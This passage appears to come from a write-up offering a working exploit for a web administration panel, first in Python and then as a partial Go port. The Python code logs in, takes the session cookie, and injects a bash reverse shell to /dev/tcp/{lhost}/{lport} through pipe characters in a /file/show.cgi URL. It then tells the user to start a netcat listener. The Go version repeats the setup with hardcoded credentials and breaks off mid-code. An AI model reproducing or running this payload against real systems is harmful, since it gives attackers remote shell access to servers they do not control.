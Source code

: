 ```python  
    print("[+] - Login success, executing payload...")
    sid = r.cookies["sid"].strip("/=; ")
    print("- Using session id: " + sid)
    rnum = rand()
    print("- Using random alphanumeric string: " + rnum)
    payload = f"bash -c 'exec bash -i &>/dev/tcp/{lhost}/{lport}<&1'"
    exp = f"http://{targetIP}/file/show.cgi/bin/{rnum}|{payload}|"
    print("- Executing payload: " + exp)
    req = requests.post(exp, cookies={"sid":sid}, verify=False, allow_redirects=False)
    print("- Run nc -nlvp 53 on attacker machine to listen for the shell with netcat. Restart this exploit if that hasn't been done already.")
else:
    print("Login failed")
```  

**Python cookie parsing examples, here just because...**  

```python  
# c = r.cookies["sid"]
# s = r.headers['Set-Cookie'].replace('\n', '').split('=')[1].split(';')[0].strip()
# si = r.headers['Set-Cookie'].split('=')[1].split(";")[0].strip()
# sid = c.strip("/=; ")
```  


## **I decided to be extra and convert the Python to GoLang...**  

```go  
package main

import (
	"crypto/tls"
	"fmt"
	"io/ioutil"
	"math/rand"
	"net/http"
	"strings"
	"time"
)

func randString(length int) string {
	chars := []rune("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789")
	rand.Seed(time.Now().UnixNano())
	result := make([]rune, length)
	for i := 0; i < length; i++ {
		result[i] = chars[rand.Intn(len(chars))]
	}
	return string(result)
}

func main() {
	targetIP := "x.x.x.x"
	// localhost and localport so target can talk back to localhost once the exploit is ran.
	lhost := "x.x.x.x"
	lport := "53"

	body := strings.NewReader("page=%2F&user=user1&pass=1user")

	url := fmt.Sprintf("http://%s/session_login.cgi", targetIP)

	tr := &http.Transport{
		TLSClientConfig: &tls.Config{
			InsecureSkipVerify: true,
		},
```